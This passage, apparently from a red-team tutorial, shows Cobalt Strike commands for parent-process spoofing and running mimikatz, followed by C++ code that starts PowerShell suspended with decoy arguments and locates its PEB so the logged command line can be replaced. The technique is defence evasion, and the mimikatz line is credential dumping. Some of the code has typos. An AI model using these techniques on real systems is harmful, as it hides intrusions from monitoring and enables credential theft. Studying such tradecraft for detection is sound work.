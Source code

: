 ```
spawnto x64 "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"
ppid 5056
mimikatz standard::coffee
```

## Command Line Argument Spoofing

Command line spoofing is a technique that can help obscure the actual arguments that a process executed.  This is achieved by spawning a process in a suspended state with a set of "fake" arguments that will be logged as part of the process creation event.  We then reach into the processes' memory and replace the fake arguments with the actual arguments we want to have run, and then resume the process.

As before, let's do this in code before looking at Cobalt Strike.

### Code
Create a powershell process and feed it some random oneliner.

```
LPSTARTUPINFOW si = new STARTUPINFOW();
si->cb = sizeof(STARTUPINFOW);

//the full process path
PPROCESS_INFORMATION pi = new PROCESS_INFORMATION();

LPCWSTR application = L"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\0";

//the "fake" arguments that we want logged
//get free disk space
wchar_t fakeArgs[] = L"powershell -c \"(Get-PSDrive $Env:SystemDrive.Trim(':')).Free/1GB\"\0";

CreateProcess(
application,
fakeArgs,
NULL,
NULL,
FALSE,
CREATE_SUSPENDED,
NULL,
NULL,
si,
pi);
```

To find the location of the CommandLine Buffer in memory, we first need to get a pointer to the PEB. This can be done using NtQueryInformationProcess to request the PROCESS_BASIC_INFORMATION data. 

```
//query process to obtain pointer to PEB
PPROCESS_BASIC_INFORMATION pbi = new PROCESS_BASIC_INFORMAITON();

NtQueryInformationProcess(
pi->hProcess,
ProcessBasicInformation,
pbi,
sizeof(PROCESS_BASIC_INFORMATION),
NULL);
```
